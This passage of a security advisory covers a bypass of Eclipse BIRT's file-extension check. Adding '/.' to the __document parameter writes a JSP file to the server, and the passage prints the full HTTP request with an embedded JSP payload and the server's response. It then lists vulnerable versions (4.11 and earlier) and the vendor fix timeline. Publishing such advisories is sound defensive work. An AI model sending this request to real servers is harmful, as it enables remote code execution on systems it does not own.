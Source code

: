 Invalid extension - "jsp" for the __document parameter.
-------------------------------------------------------------------------------

But adding `/.` to the end of the filename creates the file on the server as
before:

-------------------------------------------------------------------------------
GET /birt/document?__report=test.rptdesign&sample=<@urlencode_all><%  out.println("OS: " + System.getProperty("os.name"));  out.println("Current dir: " + 
getServletContext().getRealPath("/"));%><@/urlencode_all>&__document=<@urlencode>./test/info-new.jsp/.<@/urlencode> HTTP/1.1
Host: IP:18080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.8,de-DE;q=0.5,de;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Cookie: JSESSIONID=C2A5FE509AD277742111569F8656881A
Upgrade-Insecure-Requests: 1

-------------------------------------------------------------------------------

-------------------------------------------------------------------------------
HTTP/1.1 200
Set-Cookie: JSESSIONID=5CC070E6E07D94816BF67A162E7DD8D2; Path=/birt; HttpOnly
Content-Type: text/html;charset=utf-8
Date: Wed, 05 Oct 2022 05:26:01 GMT
Connection: close
Content-Length: 283

<html><head><title>Complete</title><META HTTP-EQUIV="Content-Type" CONTENT="text/html; charset=utf-8"></head>
<body style="background-color: #ECE9D8;">
<div style="font-size:10pt;"><font color="black">
The report document file has been generated successfully.</font>
</div></body></html>
-------------------------------------------------------------------------------

This allows the execution of the provided `JSP` code, by calling
`/birt/test/info-new.jsp`.


Vulnerable / tested versions:
-----------------------------
The following version has been tested, but all versions <= 4.11 are vulnerable.
* 4.10.0 (2022-10-01)


Vendor contact timeline:
------------------------
2022-11-07: Vendor contacted via bugs.eclipse.org (https://bugs.eclipse.org/bugs/show_bug.cgi?id=580994)
2022-11-17: Vendor confirmed the bypass and is working on a fix.
2022-11-17: Vendor provided a fix.
2022-11-27: The fix was tested and could be bypassed again.
2022-11-27: Vendor acknowledged the bypass and provided a new fix.
2022-11-28: The fix was tested and we were not able to bypass it.
2022-11-30: Vendor releases patched version 4.12
2022-12-16: Public release of security advisory.

